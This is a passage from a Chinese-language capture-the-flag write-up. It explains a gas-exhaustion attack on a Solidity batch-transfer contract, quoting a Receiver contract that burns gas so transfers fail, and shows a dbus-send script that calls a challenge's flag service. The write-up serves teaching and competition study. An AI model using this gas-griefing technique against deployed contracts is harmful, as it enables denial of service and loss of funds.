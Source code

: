 ```solidity
        require(totalAmount == msg.value, "Incorrect total amount");

        for (i = 0; i < recipients.length; i++) {
            (bool success, ) = recipients[i].call{value: amounts[i]}("");
            if (!success) {
                pendingWithdrawals[recipients[i]] += amounts[i];
            }
        }
    }

    function withdrawPending() external {
        uint256 amount = pendingWithdrawals[msg.sender];
        pendingWithdrawals[msg.sender] = 0;
        (bool success, ) = payable(msg.sender).call{value: amount}("");
        require(success, "Withdrawal failed");
    }
}

```

这次加入了`withdrawPending`函数，用于在转账失败时取回未转账成功的ETH，并返回成功。但是注意到：`(bool success, ) = recipients[i].call{value: amounts[i]}("");`并没有设置gas限制，所以我们只需要消耗大量gas即可导致转账失败。当时编译用的合约做challenge3的时候删掉了（虽然也没做出来），可以参考一下官方writeup：

>```
>// SPDX-License-Identifier: MIT
>pragma solidity ^0.8.0;
>
>contract Receiver {
>receive() external payable {
>   while(gasleft() > 100) {}
>}
>}
>```
>
>如果想深入这一小问的细节的话，其实智能合约在调用另一个智能合约的时候，只会传递剩余 gas 的 63/64。所以一次转账的时候接收者耗尽了 gas，并不会让批量转账合约也立即就耗尽 gas。但是，由于这题是 10 次转账，每次都会把剩下的 gas 传递过去，而合约调用本身又会消耗不少的固定 gas，所以很快就会导致批量转账合约的 gas 耗尽。

# 不太分布式的软总线

## What DBus Gonna Do?

虽说可以上传带有shebang的脚本，又虽说Dockerfile里有安装`dbus-send`，但是我在写wp复现的时候它又没有了。

```bash
#!/bin/sh

SERVICE="cn.edu.ustc.lug.hack.FlagService"
INTERFACE="cn.edu.ustc.lug.hack.FlagService"
PATH="/cn/edu/ustc/lug/hack/FlagService"
METHOD="GetFlag1"

PARAMETER="Please give me flag1"

FLAG=$(dbus-send --system --print-reply --dest=$SERVICE $PATH $INTERFACE.$METHOD string:$PARAMETER | grep variant | awk '{print $3}')

echo "Flag1: $FLAG"
```
